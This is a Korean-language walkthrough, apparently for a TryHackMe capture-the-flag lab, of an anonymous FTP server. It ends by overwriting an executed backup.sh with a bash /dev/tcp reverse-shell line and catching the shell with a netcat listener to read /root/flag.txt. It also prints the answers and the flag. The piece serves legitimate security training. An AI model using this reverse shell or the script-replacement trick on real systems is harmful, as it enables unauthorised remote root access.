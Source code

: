 # Day 9 | Networking Anyone can be Santa!

## Workstation
- Virtual Box : VMware Fusion 12.1.2
- OS : kali-linux-2021.2

## Walkthrough
![attackbox]()

Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user

> public

```
$ sudo ftp 10.10.65.80
```

위 명령어 사용 후 `anonymous`로 로그인 한다.

![anonymous]()

Question #2: What script gets executed within this directory?

> backup.sh

로그인 성공 후 디렉터리를 조사하면 2개의 파일을 찾을 수 있는데 사용 가능한 파일은 `backup.sh` 이다.

![ls]()

Question #3: What movie did Santa have on his Christmas shopping list?

> The Polar Express

디렉터리 안에 2개의 파일 중 shoppinglist.txt 파일을 `get` 명령어로 다운받아 확인한다.

![list]()

![catlist]()

Question #4: Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

> THM{even_you_can_be_santa}

backup.sh 파일을 다운받는다.

![backup]()

![catbackup]()

리버스쉘을 얻기 위해 vi 편집기를 사용해 소스코드를 입력해준다.

```
bash -i >& /dev/tcp/MY_IP/4444 0>&1
```

![bash]()

그리고 편집한 backup.sh 파일을 업로드하기 전 새로운 터미널을 열어 4444번 포트로 Netcat을 실행해 준다.

```
$ sudo nc -lvnp 4444
```

![nc]()

Netcat 리스너를 실행 후 ftp로 다시 접속해 `put` 명령어로 업로드 해준다.

![put]()

업로드가 되면 Netcat 리스너에서 리버스쉘을 접속해 flag를 얻을 수 있다.

![flag]()